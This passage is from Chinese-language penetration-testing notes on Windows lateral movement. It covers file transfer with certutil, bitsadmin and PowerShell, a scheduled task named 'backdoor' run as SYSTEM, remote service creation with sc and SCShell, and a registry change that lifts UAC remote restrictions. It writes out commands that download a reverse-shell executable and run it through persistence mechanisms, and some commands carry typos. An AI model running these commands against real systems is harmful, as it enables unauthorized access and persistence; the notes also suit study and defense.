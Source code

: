#### 文件传输

1. 通过建立IPC连接进行文件共享（需要IPC连接开启，139 445端口开放）
2. 搭建SMB服务器：可通过impacket工具包中的smbserver.py来搭建，也可以开启windows上的匿名共享
3. windows自带工具：
   * Certutil：windows自带的命令行工具 `certuil -urlcache -split -f [url] C:\reverse_tcp.exe`
   * BITSAdmin：windows7之后自带 `bitsadmin /transfer test http://ip:port/filename C:\reverse_tcp.exe`
   * powershell：通过创建WebClient对象实现文件下载 `(New-Object) Net.WebClient).DownloadFile('[url]','C:/filename')`
   * curl：`curl -O [url]`
   * wget： `wget -O [url]`
   * scp：`scp root@192.168.0.111:/root/test.txt ./`

#### 创建计划任务

1. 利用已有的ipc连接创建计划任务
2. 利用UNC路径加载执行

   ```
   UNC：Universal Naming Convention，通用命名约定，格式类似于：[protocol]://[servername]/[sharename]/[path]
   通过访问UNC执行计划任务：
   schtasks /create /s [localhost] /TN backdoor /sc minute /mo 1 /tr [UNC] /ru system /f /u [username] /p [password]
   ```

#### 通过系统服务

1. 通过sc设置系统服务（需要与目标主机建立IPC连接）
   `sc [target] create [name] binpath=[path]`
2. 使用自动化工具SCShell

   ```
   SCShell.exe [target] [servername] [binpath] [domain] [domain username] [password]
   ```

UAC（User Account Control），用户账户控制，使用户能够以非管理员权限执行日常任务，本地管理员RID非500的管理员用户也将使用最小权限原则运行大多数应用程序，当普通用户执行到需要管理员权限的任务时，windows会自动提示用户给予批准。为了保护本地用户和组，windows引入了 UAC Remote Restrictions，此机制有助于防止恶意程序以管理员身份远程运行，后边使用的hash传递，schtasks命令，PSexec等都只能以RID为500的Administrator用户身份运行，以其他用户身份运行以上命令都会显示拒绝访问。值得注意的是UAC只限制本地用户和组，对域管理员不做限制，因此会很大程度上限制本地环境中的横向移动，有条件的情况下可以通过执行以下命令来关闭UAC Remote Restrictions：

`reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DOWRD /d 1 /f`

#### 远程桌面服务利用
